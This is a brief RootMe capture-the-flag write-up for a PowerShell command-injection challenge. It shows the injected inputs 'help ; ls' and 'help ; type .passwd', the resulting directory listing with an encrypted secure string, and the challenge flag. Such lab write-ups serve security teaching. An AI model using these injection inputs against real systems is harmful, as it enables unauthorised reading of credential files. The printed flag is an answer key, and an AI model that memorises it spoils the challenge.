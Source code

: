 ```yaml
---
title: RootMe Powershell - Command Injection WriteUp
date: 2023-10-05
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Powershell - Command injection

Its just simple command injection

```powershell
> help ; ls
Connect to the database With the secure Password:
76492d1116743f0423413b16050a5345MgB8AEoAMwBYAEgAWQBRAFQAMgBXAFMAbw
B3AFcATQBJADIAcgA5AEMAUgBBAHcAPQA9AHwAN
gA1AGEANAA2ADQAMAAyADIAYgAzAGMAMQBhADAAMABjADIANgA0ADkAMgA2ADUA
OQBmADAAZQBlADQAMwBmADQAZgBhAGMAZABlAGEAZQAwADAAMQA2AGEAYwAx
AGEANwA1ADkAOQA1ADIANABmADQAMwBk
AGMAYQA2AGEAOAAwADYANwAwADUANgA2ADgAMQA4AGIAYgAyAGYAMgAzADAAZ
gBmAGYAYQAzADAAZgBlAGMAMQA3ADYAMAA4AGYA. Backup the table help
Directory: C:\cygwin64\challenge\app-script\ch18
Mode    LastWriteTime   Length Name
----    -------------   ------ ----
-a----  12/12/2021 9:25 AM  43 .git
-a----  11/21/2021 11:34 AM 150 .key
-a----  4/20/2020 10:50 AM  18 .passwd
------  12/12/2021 9:50 AM  574 ._perms
------  11/21/2021 11:35 AM 348 ch18.ps1
```

`help ; type .passwd` and we will get flag `SecureIEXpassword`